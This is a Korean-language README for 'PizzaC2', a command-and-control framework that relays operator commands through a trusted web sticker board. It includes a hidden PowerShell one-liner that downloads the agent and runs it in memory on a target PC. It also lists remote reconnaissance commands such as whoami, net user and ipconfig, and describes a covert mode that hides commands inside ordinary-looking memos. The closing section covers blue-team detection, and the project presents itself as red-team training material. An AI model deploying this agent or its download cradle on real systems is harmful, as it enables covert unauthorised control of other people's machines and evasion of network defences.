

<p align="right">
  <a href="README.md">English</a> | <strong>한국어</strong>
</p>

# 🍕 PizzaC2 - LOTS (Living Off Trusted Sites) C2 프레임워크

> **"서버와 에이전트가 공유된 데이터 저장소(게시판, 글/스티커)를 사용할 수 있다면, 그것이 곧 C2가 됩니다."**

`PizzaC2`는 웹 기반 입장코드 라운지 및 스티커 보드 플랫폼([give-me-the-pizza](https://lolonoa-ralo.github.io/give-me-the-pizza/))을 **명령 제어(Command and Control, C2)** 채널로 재해석한 **LOTS (Living Off Trusted Sites)** 개념 증명(PoC) 및 보안 실습 프레임워크입니다.

---

## 📌 1. 개념 및 배경: LOTS C2란?

### 💡 LOTS (Living Off Trusted Sites)
기존 공격자의 C2 서버(악성 도메인/IP)는 보안 방화벽, 웹 프록시, EDR에 의해 쉽게 차단됩니다.  
반면, **신뢰할 수 있는 일반 웹 서비스**(GitHub, Notion, Discord, Slack, DC인사이드, 또는 일상적인 웹 게시판)의 트래픽은 차단하기 어렵습니다.

**LOTS C2**는 이러한 합법적이고 신뢰받는 플랫폼을 중계 매개체로 활용하여:
1. 서버(Operator)가 일반 메모나 스티커 형태로 명령(`!whoami`, `!dir` 등)을 게시판에 게시합니다.
2. 타겟 호스트의 에이전트(Agent)가 일반 웹 트래픽(HTTPS/HTTP)으로 게시판을 주기적으로 확인(Polling)합니다.
3. 새 명령 스티커를 발견하면 로컬 셸(PowerShell/Bash)에서 실행하고, 그 실행 결과를 다시 **결과 스티커**로 게시판에 붙입니다.
4. 운영자는 웹 브라우저 보드에서 결과를 실시간으로 확인합니다.

---

## 🏗️ 2. 시스템 아키텍처



---

## 🚀 3. 빠른 시작 가이드 (Quick Start)

### 단계 1: C2 릴레이 서버 실행

Windows 환경(PowerShell 내장, 추가 설치 불필요):
```powershell
powershell -ExecutionPolicy Bypass -File server.ps1 -Port 8080
```

Linux / macOS 또는 Python 환경:
```bash
python server.py
```
> 서버가 실행되면 웹 브라우저에서 `http://127.0.0.1:8080` 으로 접속할 수 있습니다.

---

### 단계 2: 웹 라운지에서 룸 생성

1. 브라우저로 `http://127.0.0.1:8080`에 접속합니다.
2. "무작위 코드 만들기"를 클릭하여 6자리 입장코드를 생성합니다 (예: `482910`).
3. "코드 입력하기"를 누르고 방금 만든 6자리 코드와 닉네임을 입력해 공간에 입장합니다.
4. 상단 툴바 우측의 **`[⚡ PizzaC2]` 콘솔 버튼**을 누릅니다.

---

### 단계 3: 타겟 호스트에서 에이전트 실행

#### 방법 A: 초간단 1-Liner (Windows PowerShell)
PizzaC2 제어판에서 **[복사]** 버튼을 누르거나 아래 명령어를 타겟 PC의 cmd/PowerShell에 붙여넣습니다:
```powershell
powershell -w hidden -nop -c "iex(New-Object Net.WebClient).DownloadString('http://127.0.0.1:8080/api/agent/ps1?code=482910&server=http://127.0.0.1:8080')"
```

#### 방법 B: 파이썬 에이전트 (Cross-Platform)
```bash
python agent.py --code 482910 --server http://127.0.0.1:8080
```

> **에이전트가 실행되면:**  
> 웹 보드 오른쪽 **"접속중인 유저"** 목록에 `🤖 Agent-DESKTOP-XXX`로 즉시 나타납니다!

---

### 단계 4: 스티커로 명령 제어하기

보드에서 직접 `+` 버튼을 눌러 스티커를 붙이거나, **`[⚡ PizzaC2]` 콘솔**의 빠른 명령 버튼을 누릅니다.

| 스티커 입력 예시 | 설명 |
|---|---|
| `!whoami` | 현재 로그인된 사용자 계정 확인 |
| `!hostname` | 타겟 컴퓨터 호스트명 확인 |
| `!ipconfig` | 네트워크 IP 정보 조회 |
| `!sysinfo` | OS 버전 및 하드웨어 사양 요약 |
| `!ps` | 상위 CPU 프로세스 목록 확인 |
| `!dir C:\` | C 드라이브 디렉터리 목록 조회 |
| `!net user` | 로컬 계정 목록 조회 |
| `!sleep 5` | 에이전트의 폴링 주기를 5초로 변경 |
| `!exit` | 에이전트 안전 종료 |
| `[CMD] Get-Service` | 일반 PowerShell cmdlet 실행 |
| `회의 메모 [c: whoami]` | **은밀한 LOTS 모드**: 일반 메모 속에 명령 은닉 |

> **실행 결과:**  
> 타겟 에이전트가 결과를 수집하여 보드에 **다크 터미널 스타일의 `[RES]` 스티커**로 즉시 게시합니다.  
> 원클릭으로 결과 텍스트를 클립보드에 복사할 수 있습니다.

---

## 🛠️ 4. 주요 파일 구성

| 파일 | 역할 |
|---|---|
| `index.html` | Pizza 웹 라운지 UI + C2 제어판 + 실시간 보드/프레즌스 동기화 클라이언트 |
| `server.ps1` | Windows PowerShell 네이티브 C2 릴레이 서버 (0 의존성) |
| `server.py` | Python 3 표준 라이브러리 기반 C2 릴레이 서버 (0 의존성) |
| `agent.ps1` | Windows 타겟용 네이티브 PowerShell C2 에이전트 |
| `agent.py` | Linux/macOS/Windows 타겟용 Python 3 C2 에이전트 |
| `builder.ps1` | 맞춤형 1-Liner 및 에이전트 파일 빌더 스크립트 |

---

## 🛡️ 5. 보안 및 방어 관점 (Blue Team / Detection)

본 프로젝트는 보안 교육 및 모의해킹(Red Teaming) 실습 목적으로 제작되었습니다.  
블루팀 관점에서 LOTS C2를 탐지하고 차단하는 방안은 다음과 같습니다:

1. **Beaconing 주기 분석**: 정기적인 간격(예: 3초, 5초)으로 동일 엔드포인트에 발생하는 인바운드/아웃바운드 HTTP 요청 탐지
2. **User-Agent 이상치 감지**: 브라우저가 아닌 기본 `WebClient` 또는 `Python-urllib` 식별 헤더 모니터링
3. **PowerShell 스크립트 블록 로깅 (Event ID 4104)**: 인메모리 `Invoke-Expression` 실행 및 원격 코드 다운로드 이벤트 탐지
4. **AMS(Antimalware Scan Interface)**: 난독화된 1-Liner 및 스크립트 페이로드 검사
